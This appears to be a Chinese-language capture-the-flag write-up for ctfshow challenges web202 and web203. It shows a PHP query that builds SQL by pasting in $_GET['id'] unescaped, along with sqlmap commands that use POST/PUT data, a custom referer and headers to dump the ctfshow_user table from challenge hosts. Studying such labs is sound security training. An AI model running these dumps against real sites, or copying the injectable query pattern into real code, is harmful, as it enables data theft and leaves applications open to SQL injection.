 

#### web202

```
 sqlmap最新版下载

 使用--data 调整sqlmap的请求方式
```



```
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."';";
      
返回逻辑

//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```

通过向命令行加入--data参数转化请求方式为post

```
sqlmap -u http://e39cef84-16aa-4167-b5d8-2609318ff7cc.challenge.ctf.show/api/ --data 'id=1' --user-agent sqlmap --referer ctf.show -D ctfshow_web -T ctfshow_user --dump 
```



#### web203

```
 sqlmap最新版下载
 使用--method 调整sqlmap的请求方式
```

```
查询语句

//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."';";
      
返回逻辑

//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```

--headers="Content-Type: text/plain" 以表单形式发送

```
sqlmap -u "http://29e626b4-75fb-4058-98af-126d2bf725c5.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer=ctf.show --headers="Content-Type: text/plain" -D ctfshow_web -T ctfshow_user -C pass --dump 
```
